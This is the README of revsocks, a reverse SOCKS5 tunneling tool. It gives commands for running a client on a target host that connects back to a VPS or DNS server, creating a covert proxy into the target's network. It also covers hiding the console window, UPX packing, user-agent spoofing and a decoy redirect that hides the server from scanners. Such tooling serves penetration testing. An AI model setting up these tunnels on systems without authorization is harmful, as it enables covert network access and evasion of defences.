 [![CircleCI](https://circleci.com/gh/kost/revsocks.svg?style=svg)](https://circleci.com/gh/kost/revsocks)
[![Codacy Badge](https://api.codacy.com/project/badge/Grade/3c687bcd445e4a828c914e4e2384196e)](https://www.codacy.com/manual/kost/revsocks?utm_source=github.com&utm_medium=referral&utm_content=kost/revsocks&utm_campaign=Badge_Grade)

# revsocks

Reverse socks5 tunneler with SSL/TLS and proxy support (without proxy authentication and with basic/NTLM proxy authentication)
Based on <https://github.com/brimstone/rsocks> and <https://github.com/llkat/rsockstun>

# Features

-   Single executable (thanks to Go!)
-   Linux/Windows/Mac/BSD support
-   Encrypted communication with TLS
-   DNS tunneling support (SOCKS5 over DNS)
-   Support for proxies (without authentication or with basic/NTLM proxy authentication)
-   Automatic SSL/TLS certificate generation if not specified

# Architecture

-   server = locally listening socks server
-   client = client which connects back to server

## Usage

### reverse TCP

    Usage:
    1) Start on VPS: revsocks -listen :8443 -socks 127.0.0.1:1080 -pass SuperSecretPassword
    2) Start on client: revsocks -connect clientIP:8443 -pass SuperSecretPassword
    3) Connect to 127.0.0.1:1080 on the VPS with any socks5 client.
    4) Enjoy. :]

### DNS tunnel

```sh
0) setup your domain records
1) Start on the DNS server: revsocks -dns example.com -dnslisten :53 -socks 127.0.0.1:1080 -pass 52fdfc072182654f163f5f0f9a621d729566c74d10037c4d7bbb0407d1e2c64
2) Start on the target: revsocks -dns example.com -pass 52fdfc072182654f163f5f0f9a621d729566c74d10037c4d7bbb0407d1e2c64
3) Connect to 127.0.0.1:1080 on the DNS server with any socks5 client.
```

## Useful parameters

    Add params:
     -proxy 1.2.3.4:3128 - connect via proxy
     -proxyauth Domain/username:password  - proxy creds
     -proxytimeout 2000 - server and clients will wait for 2000 msec for proxy connections... (Sometime it should be up to 4000...)
     -useragent "Internet Explorer 9.99" - User-Agent used in proxy connection (sometimes it is usefull)
     -pass Password12345 - challenge password between client and server (if not match - server reply 301 redirect)
     -recn - reconnect times number. Default is 3. If 0 - infinite reconnection
     -rect - time delay in secs between reconnection attempts. Default is 30

## Options

Complete list of command line options

```
  -cert string
	certificate file
  -connect string
	connect address:port
  -debug
	display debug info
  -dns string
	DNS domain to use for DNS tunneling
  -dnsdelay string
	Delay/sleep time between requests (200ms by default)
  -dnslisten string
	Where should DNS server listen
  -listen string
	listen port for receiver address:port
  -pass string
	Connect password
  -proxy string
	proxy address:port
  -proxyauth string
	proxy auth Domain/user:Password
  -proxytimeout string
	proxy response timeout (ms)
  -q	Be quiet
  -recn int
	reconnection limit (default 3)
  -rect int
	reconnection delay (default 30)
  -socks string
	socks address:port (default "127.0.0.1:1080")
  -useragent string
	User-Agent
  -version
	version information
```

# Requirements

-   Go 1.4 or higher
-   Few external Go modules (yamux, go-socks5 and go-ntlmssp)

# Compile and Installation

Linux VPS

-   install Golang: apt install golang make

```sh
make
```

launch:

```sh
./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234
```

Windows client:

-   download and install golang

```sh
go get
go build
```

## Windows optional

optional: to build as Windows GUI:

```sh
go build -ldflags -H=windowsgui
```

You can also compress exe - just use any exe packer, ex: UPX

```sh
upx revsocks
```

## Usage examples

```sh
revsocks -connect clientIP:8443 -pass Password1234
```

or with proxy and user agent:

```sh
revsocks -connect clientIP:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```

Client connects to server and send agentpassword to authorize on server. If server does not receive agentpassword or reveive wrong pass from client (for example if spider or client browser connects to server ) then it send HTTP 301 redirect code to www.microsoft.com

## Custom certificate

Generate self-signed certificate with openssl:

```sh
openssl req -new -x509 -keyout server.key -out server.crt -days 365 -nodes
```

## Debug

For debugging (especially DNS part):
```sh
go build -tags debug
```
